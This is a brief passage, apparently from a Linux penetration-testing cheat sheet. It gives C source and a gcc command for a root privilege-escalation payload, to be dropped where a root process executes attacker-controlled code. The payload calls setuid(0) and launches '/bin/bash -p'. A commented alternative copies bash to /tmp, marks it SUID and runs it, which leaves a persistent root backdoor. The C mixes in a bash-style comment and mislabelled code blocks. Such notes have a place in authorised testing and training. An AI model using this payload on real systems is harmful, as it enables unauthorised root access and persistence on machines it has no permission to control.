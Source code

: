 There may be instances where some root process executes another process which you can control. In these cases, the following C code, once compiled, will spawn a Bash shell running as root:

==privesc.c==

---
```bash - target
int main() {
 setuid(0);
 system("/bin/bash -p");
 #system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");

}
```

```bash - target
gcc privesc.c -o privesc 
```